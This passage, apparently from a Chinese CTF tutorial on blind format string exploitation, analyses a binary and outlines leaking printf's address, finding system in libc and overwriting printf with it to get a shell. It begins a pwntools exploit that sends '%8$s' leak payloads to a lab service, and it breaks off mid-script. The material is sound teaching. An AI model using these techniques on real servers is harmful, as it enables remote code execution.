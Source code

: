 可以基本确定的是 sub_4004C0 为 read 函数，因为读入函数一共有三个参数的话，基本就是 read 了。此外，下面调用的 sub_4004B0 应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个 while 1 的循环，一直在执行。

**注解：**补充一张图

![fmrstr_6](_images/格式化字符串漏洞基础例子/fmrstr_6.png)

#### 利用思路 

分析完上面的之后，我们可以确定如下基本思路

- 泄露 printf 函数的地址，
- 获取对应 libc 以及 system 函数地址
- 修改 printf 地址为 system 函数地址
- 读入 /bin/sh; 以便于获取 shell

#### 利用程序 

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
```